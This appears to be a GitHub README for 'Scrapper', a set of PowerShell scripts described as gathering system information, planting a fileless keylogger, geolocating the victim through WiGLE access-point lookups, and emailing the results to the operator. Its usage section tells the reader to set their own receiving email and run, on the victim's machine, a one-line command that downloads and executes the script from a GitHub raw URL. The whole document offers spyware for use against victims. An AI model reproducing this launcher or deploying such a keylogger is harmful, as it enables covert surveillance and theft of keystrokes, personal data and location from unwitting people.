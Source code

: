 # powershellScripts



## Scrapper
Powershell script that 
- Gathers info
- Plants a fileless kelyogger
- Finds the geolocation of the client through querrying the AP name in the Wiggle database
- Sends all info through email back

## How to use
- Fork project to own github so you can change the needed variables
- Change the wiggle api key (optional if you dont need geolocation)
- Change the receiver email in both scrapper.ps1 and mailer.ps1
- Run in powershell on victim : 
``` Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/yourGithubRepo/master/scrapper.ps1') ```
